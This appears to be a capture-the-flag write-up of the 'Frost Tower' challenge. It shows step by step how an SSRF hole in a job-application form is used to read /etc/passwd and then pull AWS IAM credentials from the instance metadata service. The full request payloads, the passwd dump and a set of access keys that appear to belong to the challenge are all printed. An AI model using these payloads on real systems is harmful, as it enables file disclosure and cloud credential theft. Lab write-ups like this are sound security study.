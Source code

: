 (ch10)=
Frost Tower Challenge
=====================

After the embarassing talk with Noxious O.D'or in the CEO restroom (!) we arrived to the SSFR + IMDS challenge
<br/>you can find it here: [https://apply.jackfrosttower.com](https://apply.jackfrosttower.com)

docs available: 
<br/>[https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)
<br/>[https://portswigger.net/web-security/ssrf](https://portswigger.net/web-security/ssrf)


## Mantra SSFR
```{admonition} Remember!
Dr. Petabyte told us, "anytime you see URL as an input, test for SSRF."
```

The first GET we tried was the one in home page required to apply for a position. 
<br/>[https://apply.jackfrosttower.com/?p=apply](https://apply.jackfrosttower.com/?p=apply)

and of course we love BurpSuite for the web challenges so we [configure our browser](https://portswigger.net/burp/documentation/desktop/external-browser-config/browser-config-firefox) to pass through the proxy for our convenience (even if you can do everything just by using the browser)


Let's submit the Form Request and, of course, we try immediately the field `inputWorkSample` because Dr. Petabyte Docet !
```
GET /?inputName=aa&inputEmail=aa%40me.it&inputPhone=aa&inputField=Bedtime+violation&resumeFile=&inputWorkSample=file:///etc/passwd&additionalInformation=bbb&submit= HTTP/2
Host: apply.jackfrosttower.com
User-Agent: This field can be used like the "Evil Bit" 2.0. Absolutely NOT malicious! 
```

<br>
after submitting the HTTP Request, we receive a curious enough Response HTML page 
in which we see again 3 images, but one of them seems broken. <br/>

![broken image](images/frost-web-apply.png)


By inspecting the HTML we see that the name of that image **is just the parameter we inserted as the parameter `inputName`**
```
<img class="rounded mx-auto d-block" src="images/aa.jpg" width="200px" />
```

and actually doing a curl on that image name it returns to us a real gift ..
```
$ curl https://apply.jackfrosttower.com/images/aa.jpg
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
```
## Entry point SSFR
Ok. we've found the entry point for the SSFR and we now have to ask for the IMDS. We try http://169.254.169.254/latest/meta-data first

```
GET /?inputName=aa&inputEmail=aa%40me.it&inputPhone=aa&inputField=Bedtime+violation&resumeFile=&inputWorkSample=http://169.254.169.254/latest/meta-data&additionalInformation=
Host: apply.jackfrosttower.com
User-Agent: This field can be used like the "Evil Bit" 2.0. Absolutely NOT malicious! 
```

And see the results in our /images/aa.jpg so kindly offered :)
```
curl https://apply.jackfrosttower.com/images/aa.jpg
ami-id
ami-launch-index
ami-manifest-path
...(cutted).
iam/info
iam/security-credentials
iam/security-credentials/jf-deploy-role
instance-action
.....(cutted)
```

### SecretAccessKey
And if we applied what we learnt in the prechallenge about `IMDS 1` and `security-credentials`. 
```
GET /?inputName=aa&inputEmail=aa%40me.it&inputPhone=aa&inputField=Bedtime+violation&resumeFile=&inputWorkSample=http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role&additionalInformation=
Host: apply.jackfrosttower.com
User-Agent: This field can be used like the "Evil Bit" 2.0. Absolutely NOT malicious! 
```
 
```
$ curl https://apply.jackfrosttower.com/images/aa.jpg
{
	"Code": "Success",
	"LastUpdated": "2021-05-02T18:50:40Z",
	"Type": "AWS-HMAC",
	"AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
	"SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
	"Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
	"Expiration": "2026-05-02T18:50:40Z"
}
```

Got it!
Done.

